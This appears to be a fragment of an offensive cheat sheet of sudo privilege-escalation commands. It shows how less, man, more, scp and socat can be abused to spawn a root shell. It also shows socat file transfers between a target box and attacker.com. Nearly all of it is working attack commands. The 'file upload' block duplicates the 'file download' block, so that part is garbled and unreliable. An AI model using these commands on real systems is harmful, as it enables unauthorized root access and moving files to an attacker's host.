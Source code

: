 #### \# file read
```
less /etc/profile
:e file_to_read
```
## man
#### \# shell
```
sudo man man
!/bin/sh
```

## more
#### \# shell
```
TERM= sudo more /etc/profile
!/bin/sh
```

## scp
#### \# shell
```
TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
sudo scp -S $TF x y:
```

## socat
#### \# shell
```
sudo socat stdin exec:/bin/sh
```

#### \# file upload
 on attacker run
 ```
 socat -u file:file_to_send tcp-listen:12345,reuseaddr
 ```
 on box:
 ```
RHOST=attacker.com
RPORT=12345
LFILE=file_to_save
socat -u tcp-connect:$RHOST:$RPORT open:$LFILE,creat
```

#### \# file download
on attacker run
```
socat -u file:file_to_send tcp-listen:12345,reuseaddr
```
on box
```
RHOST=attacker.com
RPORT=12345
LFILE=file_to_save
socat -u tcp-connect:$RHOST:$RPORT open:$LFILE,creat
```
